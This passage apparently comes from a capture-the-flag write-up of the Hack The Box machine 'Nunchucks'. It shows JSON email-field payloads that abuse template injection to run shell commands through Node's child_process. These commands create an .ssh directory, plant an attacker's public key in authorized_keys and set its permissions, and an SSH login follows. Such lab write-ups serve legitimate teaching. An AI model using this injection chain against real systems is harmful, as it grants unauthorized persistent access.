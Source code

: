 [![](/img/image-20211022143201046.png)*Click
for full size
![image*](/img/image-20211022143201046.png)

### SSH Key

To get a shell, I'll write my SSH key into
`/home/david/.ssh/authorized_keys`. First create the directory:



    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')\")()}}@htb.htb"}



Now add my public key:



    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing > /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}



Next set the permissions to 600:



    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('chmod 600 /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}



And now I can connect over SSH:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen david@nunchucks.htb
    ...[snip]...
    david@nunchucks:~$


